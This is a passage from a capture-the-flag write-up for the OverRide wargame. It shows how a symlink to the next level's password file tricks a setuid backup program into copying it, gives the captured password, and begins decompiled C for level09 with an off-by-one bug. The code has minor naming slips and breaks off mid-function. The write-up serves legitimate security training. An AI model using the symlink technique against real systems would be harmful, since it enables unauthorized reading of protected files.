 The program has a **stack canary implemented**, so the approach to overwrite the EIP might not be the way. The program takes a file as an input, reads it character by character, creates a new file in `./backups` and writes it to their own backup files accordingly.

The exploit is quite straightforward, I will need to go to a **writable directory**, **create a soft link** to `/home/users/level09/.pass` and pass that link as as argument to the binary. The program will create a backup file and write its contents in `backups/<linkname>`. The password is `fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S`

```
level08@OverRide:/tmp/level08$ ln -s /home/users/level09/.pass link1
level08@OverRide:/tmp/level08$ /home/users/level08/level08 link1
ERROR: Failed to open ./backups/link1
level08@OverRide:/tmp/level08$ rm backups/link1
level08@OverRide:/tmp/level08$ /home/users/level08/level08 link1
level08@OverRide:/tmp/level08$ cat backups/link1
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
level08@OverRide:/tmp/level08$
```

## level09 (1 byte can make a difference)
```clike=
struct my_struct {
    char    msg[140];
	char    username[40];
	int    msglen;
};

void set_msg(struct my_struct* var1)
{
    char temp[1024];
    
    memset(temp, 0, 128);
    puts(">: Msg @Unix-Dude");
    printf(">>: ");
    fgets(temp, 1024, stdin);
    strncpy(var1->message, temp, var1->msglen);
}

void set_username(struct my_struct* var1)
{
    char temp[140]; // 0x90 - 0x4
    int count;
    
    memset(temp, 0, 16);
    puts(">: Enter your username");
    printf(">>: ");
    fgets(temp, 120, stdin);
    count = 0;
    while (count < 41 && temp[count]) {
		var1->username[count] = name[count];
		count +=1;
	}
}

void handle_msg()
{
    struct my_struct msg;
    
    memset(msg.username, 0, 40);
    msg.msglen = 140;
    set_username(&msg);
    set_msg(&msg);
    puts(">: Msg sent!");
```
